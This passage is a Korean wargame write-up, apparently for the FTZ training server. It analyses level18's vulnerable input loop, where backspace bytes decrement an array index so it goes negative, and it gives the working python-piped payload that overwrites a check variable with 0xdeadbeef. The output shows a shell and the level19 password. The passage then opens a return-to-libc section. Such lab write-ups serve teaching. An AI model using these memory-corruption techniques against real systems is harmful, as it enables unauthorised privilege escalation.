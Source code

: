 ```
 &string:0xbfffdcf0
 &check:0xbfffdcec
 &x:0xbfffdce8
 &count:0xbfffdce4 
 &fds:0xbfffdc60
=========================================
 count=30
 x=20
 check=10
```

실제 위와 같은 결과를 볼 수 있다. 정확하게 변수에 접근이 가능하다.

자 소스코드에서 다음과 같은 부분을 본다.

```c++
case 0x08:
                        count--;
                        printf("\b \b");
                        break;
default:
                        string[count] = x;
                        count++;
                        break;
```

입력 값에 0x08이 입력되면 `count` 변수를 감소시키는 것을 확인할 수 있다.  그리고 다른 입력 값은 `string[count]` 형식으로 입력 값을 저장하고있다. 그럼 count 를 -4가 되도록 유도하고, 그 다음 0xdeadbeef를 입력하여 쉘을 획득할 수 있을 것으로 보인다.

```
[level18@ftz level18]$ (python -c 'print "\x08\x08\x08\x08"+"\xef\xbe\xad\xde"'; cat) | /home/level18/attackme 
Enter your command: id
uid=3099(level19) gid=3098(level18) groups=3098(level18)
my-pass

Level19 Password is "swimming in pink".
```



## [+] FTZ level19

### Analysis

이번엔 RTL(Return To Libc)에 대한 내용이 언급된다.

아래와 같은 코드를 작성하고 쉘이 어떻게 실행되는지 분석해본다.

```c++
#include <stdio.h>

int main()
{
    system("/bin/sh");
}
```
